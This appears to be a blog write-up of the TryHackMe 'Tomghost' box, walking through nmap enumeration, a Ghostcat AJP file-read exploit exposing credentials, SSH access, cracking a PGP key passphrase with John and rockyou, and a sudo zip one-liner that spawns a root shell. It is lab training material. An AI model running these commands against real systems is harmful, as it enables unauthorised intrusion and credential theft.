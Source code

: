 +++
title = 'Tom Ghost: TryHackMe Writeup'
date = "2020-07-05"
draft = false
+++
# Try Hack Me - Tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to https://tryhackme.com/.

## Disclaimer -  Your IP address will be different!
---

## Scanning and Enumeration

We will start with running our nmap scan.  
Command: `nmap -A -T4 -sC -sV -oN nmap/initial.txt 10.10.93.77`

Command Breakdown:

    -A: do an extensive scan on these ports

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

    -sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-oN: Normal output to the file normal.file

Once the results came back there was only one thing that appeared out of place to me and that was port 8009.  

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access.  

{{< figure src="/images/TomGhost/nmapResulst.png">}}

We will bu using the following tool to exploit this vulnerability.  
[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  

Command: `python3 ajpShooter.py http://10.10.93.77:8080 8009 /WEB-INF/web.xml read`

{{< figure src="/images/TomGhost/ajpShooter.png">}}

It would seems that we where able to find what seems to be both a user name and a password.  

Let's look back at our nmap scan. Remeber that port 22 was open. We might be able to use these credentials to log into our box.  

Command: `ssh <username>@10.10.93.77`  
Enter in the password when you are prompted to and BLAM! we are connected under that user account.  

{{< figure src="/images/TomGhost/sfUser.png">}}
When we use the `ls` command we see that there are two files. Both of these files could be encryptions keys, but for right now we are going to look into the `/home` directory to see if we can find anything useful.  

{{< figure src="/images/TomGhost/merlin.png">}}
Let's keep digging and see if we an find anything else. If we `ls /home/merlin` you will see that it is here we find our first flag `user.txt`.  

{{< figure src="/images/TomGhost/userFlag.png">}}
Now we are going to return to pgp and asc file that we found in the `skyfuck` directory.  
We are going to all of these files to our host machine. In order to do this we will need to use the `scp` command.  

When using the `scp` command you will want to run it on your host maching and not from the Tomghost VM.   
Command: `scp skyfuck@10.10.31.90:/home/skyfuck/* .`
## Cracking the Hash
---
After running the `scp` command we now have both the credential.pgp and tryhackme.asc on our host maching.  
The next thing we want to do is use John The Ripper to get the hash from the `tryhackme.asc`.  
Here is a good [video](https://www.youtube.com/watch?v=DBpd9e4tJfg) for recovering your PGP key with John.  
Command: `gpg2john tryhackme.asc > hash`  
Once complete you can see that we now have our password. Lets make sure that we take note of that.  
 
It is now time for to crack open the hash that we collected eariler. This can be down by using John and combining it with the rockyou.txt wordlist.  

FYI in order to find the location of your rockyou.txt word list just use `locate rockyou.txt`. Mind is located in the `/usr/share/wordlists/` directory.  

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
{{< figure src="/images/TomGhost/passwd.png">}}

It seems that John was able to find out passphrase. Now we are going to use that phrase to import adn decrypt our PGP key that we have.
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

{{< figure src="/images/TomGhost/merlinPasswd.png">}}
Things are starting to work in our favor.
We now have the password to the Merlin account.  
So we need to go back to our SSH shell and change from the skyfuck user to merlin, that can be done by using the `SU` command.  

Command: `su merlin`  
Once you are logged in as Merlin lets see if we have the abiliy to run anything as sudo.  
`sudo -l`  
It seems that the only thing we can use sudo on is `/usr/bin/zip`  
Afer a little bit of reasearch I found this [GitBook](https://d00mfist1.gitbooks.io/ctf/privilege_escalation_-_linux.html) on privilege escalation. Under the zip portion there was this oneliner that would allow us to gain access to a root shell.
`sudo zip -q /tmp/test.zip cc0.txt -T -TT '/bin/sh #'`

{{< figure src="/images/TomGhost/shell.png">}}
Once we have the shell we can us the `id` command to see that we are now running as a root user.  

Now it is time to find the root.txt file.
```
ls /root
cat /root/root.txt
```
{{< figure src="/images/TomGhost/rootFlag.png">}}

# Congratulations you have just completed the Tomghost challenge!
